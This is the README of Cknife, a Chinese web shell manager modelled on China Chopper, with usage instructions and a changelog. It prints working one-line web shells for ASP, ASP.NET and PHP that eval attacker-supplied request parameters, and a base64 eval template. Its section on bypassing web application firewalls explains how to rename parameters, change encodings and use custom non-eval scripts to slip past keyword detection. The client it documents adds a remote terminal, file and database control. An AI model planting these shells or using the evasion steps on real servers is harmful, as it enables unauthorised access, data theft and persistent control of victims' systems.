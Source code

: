 ```yaml
---
project: Cknife
stars: 2430
description: |-
    Cknife
url: https://github.com/Chora10/Cknife
---
```


软件名称：Cknife
中文名称：C刀
源码地址：https://github.com/Chora10/Cknife
下载地址：http://pan.baidu.com/s/1nul1mpr  密码：f65g
官方博客：http://www.ms509.com/
作者：	  Chora && MelodyZX
----------------------------------------------------------------------------------------------------------
免责声明：
本工具仅限于安全研究与教学使用，用户使用本工具所造成的所有后果，由用户承担全部法律及连带责任！作者不承担任何法律及连带责任。
----------------------------------------------------------------------------------------------------------
为什么开发Cknife：
1、方便已被授权的渗透测试人员进行渗透测试；
2、方便WAF厂商提升自身WAF的防护能力；
3、方便管理员管理自身网站及服务器。
----------------------------------------------------------------------------------------------------------
为什么开源Cknife：
1、结合大众的力量优化完善本软件；
2、菜刀后门层出不穷，开源来接受大众的监督以及审计。
----------------------------------------------------------------------------------------------------------
理想：希望能在安全研究员以及WAF厂商的对抗中提升国内WAF的防护水平以及安全研究员的实力。
----------------------------------------------------------------------------------------------------------


一、运行环境：

安装了JRE1.7+环境的所有操作系统

二、文件说明：
------------------------------------------------------------------
Cknife.jar	Cknife主程序
------------------------------------------------------------------
Cknife.db	Cknife的数据库(不存在会自动生成)
Config.ini	Cknife的配置文件(不存在会自动生成)
ReadMe.txt	你现在正在看的(可删除)
1.jsp		JSP服务端脚本(可删除)
1.jspx		JSPX服务端脚本(可删除)
------------------------------------------------------------------

三、使用说明：

服务端脚本支持ASP、ASPX、PHP、JSP、JSPX、Customize(自定义)。
代码包含且不限于如下代码（只要能构造出类似eval的函数就行，比如PHP的create_function、assert等）

ASP:        
<%eval request("Cknife")%>
　	
ASP.NET:    
<%@ Page Language="Jscript"%><%eval(Request.Item["Cknife"],"unsafe");%>

PHP:        
<?php @eval($_POST['Cknife']);?>

JSP:	    
[代码详见1.jsp]

JSPX:	    
[代码详见1.jspx]

Customize:  
自定义类型,功能代码在服务端保存,理论上支持所有动态脚本,只要正确与C刀进行交互即可。此模式可按需定制，比如只要浏览目录，或是只要虚拟终端功能，代码可以很简短。


四、数据库功能：

首次使用在列表里点击右键，选择数据库管理会提示请先配置数据库，点击配置数据库按钮选择对应的连接方式连接即可。

五、设置功能：

代理功能：在类型处选择代理类型。支持SOCKS、HTTP类型的代理，使用Burp抓取Cknife数据，需选择代理类型为HTTP，并填上对应的IP以及端口即可。
如果想要关闭代理功能，只需要选择代理类型为DIRECT，或者清空用户名或密码，即表示关闭代理。

自定义请求头功能：在文本框里输入要自定义的请求头以及对应的值，可以添加或修改多个请求头。只需要按照如下格式添加即可：
User-Agent:xxx
Cookie:xxx
ms509:Chora
如果想要关闭自定义请求头功能，只需要把文本框内容清空，或者选中关闭选项并确定。

六、过WAF

这是一款跨平台的基于配置文件的中国菜刀，把所有操作给予用户来定义，主程序只是图形的展示，以及数据的发送。
我分开了每一个步骤写入到配置文件里面，用户可以自定义任何代码，包括更改参数名称，参数内容。 
比如： 
SKIN=javax.swing.plaf.nimbus.NimbusLookAndFeel 设置皮肤为nimbus 
SPL=->|               			       表示截取数据的开始符号 
SPR=|<-               			       表示截取数据的结束符号 
CODE=code         			       编码参数 
ACTION=action    			       动作参数 
PARAM1=z1         			       参数1 
PARAM2=z2         			       参数2 
PHP_BASE64=1   				       当为PHP时，Z1，Z2参数是否开启自动base64加密，如果想定义自己的加密方式则关闭设置为0 
PHP_MAKE=@eval(base64_decode($_POST[action])); 生成方式，这里可以不用该方式，可以用你任何想要的方式 
PHP_INDEX=...             		       显示主页功能的代码放这儿
PHP_READDICT=...      			       读取主页功能的代码放这儿
PHP_READFILE=...       			       读取文件功能的代码放这儿
PHP_DELETE=...           		       删除文件夹以及文件功能的代码放这儿
PHP_RENAME=...         			       重命名文件夹以及文件功能的代码放这儿
PHP_RETIME=...         			       修改时间功能的代码放这儿
PHP_NEWDICT=...        			       新建目录功能的代码放这儿
PHP_UPLOAD=...          		       上传文件功能的代码放这儿
PHP_DOWNLOAD=...    			       下载文件功能的代码放这儿
PHP_SHELL=...              		       虚拟终端功能的代码放这儿
PHP_DB_MYSQL=...			       管理MYSQL数据库功能的代码放这儿
ASP_...=...
ASPX_...=...
JSP_...=...

除了修改以上参数过WAF外，程序还额外提供了一种Customize过WAF的模式。
Customize模式原本是用于支持一些程序默认不支持的脚本，比如CFM、ASMX、ASHX、PY等等，只要用户自写的脚本能正确与菜刀进行交互即可。

换一个思考方式，如果我们自写一个PHP脚本实现了列文件以及目录的功能，它能够正确的与C刀进行交互，这个时候如果我们选择PHP(Eval)的连接方式就会连接失败。
应该选择Customize模式进行连接。有人说为什么一句话就可以连接，你偏偏还要写这么多代码用Customize模式连接？如果一个很厉害的WAF检测eval,assert等关键词
，你的一句话实在是饶不过，这个时候你可以不用一句话，就在PHP脚本里用正常代码实现列文件以及目录，然后用Customize模式连接就达到了过WAF的目的。

Customize(自定义)模式跟其他模式一样，每一个步骤也都写入到配置文件里面，用户同样可以参数名称以及参数内容。
比如你自写了用Customize模式连接的Customize.php服务端。显示主页功能提交的参数应该是：密码=1&action=index以及密码=1&action=readdict。
如果C刀普及以后WAF厂商肯定会把readdict列入黑名单，这个时候你就可以修改readdict的名称为其他名称，同样可以修改action的名称，也可以修改1为其他字符
CUS_MAKE=1 
CUS_INDEX=index 
CUS_READDICT=readdict 
CUS_READFILE=readfile 
CUS_SAVEFILE=savefile 
CUS_DELETE=delete 
CUS_RENAME=rename 
CUS_RETIME=retime 
CUS_NEWDICT=newdict 
CUS_UPLOAD=upload 
CUS_DOWNLOAD=download 
CUS_SHELL=shell

七、更新日志：(更新版本后请删除Config.ini文件，重新打开自动生成新版本的Config.ini)

程序在使用过程中难免有各种BUG，及时关注看一下是否有更新吧，说不定己经修补了呢。

已知问题：
Graphite与Metal类型的皮肤互相之间切换不需要重启Cknife，其余类型(Nimbus、Windows、Mac等)的皮肤相互之间切换也不需要重启Cknife，
但是这两种类型的皮肤进行切换就需要重启Cknife才能完全生效，不然最小化、最大化、关闭按钮不会显示，这是Swing架构遗留的问题。

20160729
1、文件管理修复若干BUG
2、文件管理新增修改时间功能
3、文件管理优化界面

20160728
1、数据库管理修复若干BUG
2、数据库管理增加获取表行数
3、数据库管理优化界面

20160623
1、虚拟终端增加右键复制粘贴功能（快捷键Ctrl+C、Ctrl+V）
2、虚拟终端增加上键下键切换历史命令功能
3、数据库管理增加右键导出数据功能

20160622
1、修复ORACLE数据库连接失败的问题
2、修复在某分辨率下添加SHELL对话框里的密码文本框消失的问题
3、更新JSPX脚本

20160620
1、修复虚拟终端低概率执行失败的情况
2、数据库管理界面优化

20160618
1、添加对HTTPS协议的支持
2、修复文件管理右边栏遇到乱码不显示的情况

20160513
1、添加自定义请求头功能

20160511
1、添加设置选项并增加了代理功能
2、增加了对JSPX脚本的支持，连接时脚本类型选择JSP(Eval)

20160426
1、修复JSP连接MYSQL数据库异常的问题
2、虚拟终端增加自定义Cmd路径的功能，命令为setp [path]

20160413
1、添加自定义模式shell返回路径的自定义分隔符
2、添加JSP对MSSQL的支持

20160318
1、优化界面，右边栏点击目录后左边栏也会选中
2、修复ASP、ASPX、JSP在打开空目录时会失败的问题
3、将默认皮肤Graphite添加到皮肤切换功能
4、虚拟终端增加标识符方便用户分辨
5、数据库部分功能增加多线程

20160317
1、优化文件管理左边栏的打开方式
2、文件管理所有功能使用多线程，防止高延迟请求界面会卡的情况发生

20160316
1、修复在Linux下默认皮肤显示乱码的问题
2、添加ASPX对MSSQL、ACCESS的支持
3、更换皮肤解决选中后看不清的情况

20160314
1、添加ASP对MSSQL、ACCESS的支持
2、修复中文路径启动失败的问题

20160311
1、修复模拟终端若干BUG；
2、模拟终端使用多线程，防止高延迟请求界面会卡的情况发生

20160310
1、添加JSP对MYSQL、ORACLE的支持
2、修复在Windows下，文件管理会多出一个盘符

20160307
1、连接失败返回详细信息，方便用户分析问题

20160301
1、合并Cknife与Cknife_Skin
2、添加数据库功能，添加PHP对MYSQL的支持

